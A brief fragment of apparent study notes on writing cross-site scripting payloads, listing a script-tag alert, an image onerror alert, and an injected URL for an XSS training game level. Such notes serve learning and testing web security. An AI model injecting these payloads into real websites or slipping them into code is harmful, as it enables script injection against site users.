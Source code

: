 1. How you can write own xss scripts?
    
        1. <script>alert(1)</script>
        2. <img src="hello.jpg" onerror="alert(1)"/>
        3. https://xss-game.appspot.com/level3/frame#3'onerror='alert(1)''
